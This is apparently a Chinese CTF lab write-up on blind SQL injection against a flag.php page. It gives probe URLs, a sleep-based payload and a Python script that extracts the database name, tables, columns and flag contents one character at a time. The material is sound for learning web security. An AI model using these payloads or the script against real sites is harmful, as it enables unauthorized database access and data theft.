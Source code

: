 日常检测注入类型
http://219.153.49.228:40947/flag.php?type=1  // 帮墨者找到

http://219.153.49.228:40947/flag.php?type=1'  // 墨者的任性网页!

http://219.153.49.228:40947/flag.php?type=1' and 1 = 2 // 帮墨者找到   //猜测是类似于错误的页面

http://219.153.49.228:40947/flag.php?type=1 and 1 = 1 --+ // 墨者的任性网页!

http://219.153.49.228:40947/flag.php?type=1 and ascii(substr(database(),1,1)) > 500 --+ // 墨者的任性网页!  没有数据 名称是0  有数据 名称是id值

可以用基于时间的盲注，但没必要
> http://219.153.49.228:41969/flag.php?type=1 and if(ascii(substr(database(),0,1)) = 32,sleep(500),1) --+

直接根据名称显示是否是0来进行盲注
```
Python 代码
import requests
import re
import os
import urllib.parse

all = 32
#发送payload
def sendPayload(payload):
    print(payload)
    r = requests.get(payload)
    return r.text

#拼装payload-时间盲注
def buildPayload(payload):
    #http://219.153.49.228:41160/flag.php?type=1 and ascii(substr(database(),{index1},1)) > {index2}
    resultChr = ''
    for index1 in range(1,100):
        payload1 = payload.replace('{index1}',str(index1))
        for index2 in range(32,127):
            result = sendPayload(payload1.replace('{index2}',str(index2)))
            if not rex(result,'0'):
                resultChr+=chr(index2)
                break
            elif index2 == 126:
                return resultChr
    return resultChr
                
            
def rex(text,restr):
    result = re.findall(restr,text)
    if len(result) == 1:
        return 1
    else:
        return 0


url1='http://219.153.49.228:40947/flag.php?type=1 and ascii(substr(database(),{index1},1)) = {index2} --+' #pentesterlab
url2='http://219.153.49.228:40947/flag.php?type=1 and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema = database()),{index1},1)) = {index2} --+' # comment,flag,goods,user
url3='http://219.153.49.228:40947/flag.php?type=1 and ascii(substr((select group_concat(column_name) from information_schema.columns where table_name = "flag"),{index1},1)) = {index2} --+' # id,flag
url4='http://219.153.49.228:40947/flag.php?type=1 and ascii(substr((select group_concat(flag) from flag),{index1},1)) = {index2} --+' # id,flag

result = buildPayload(url4)
print(result)

```

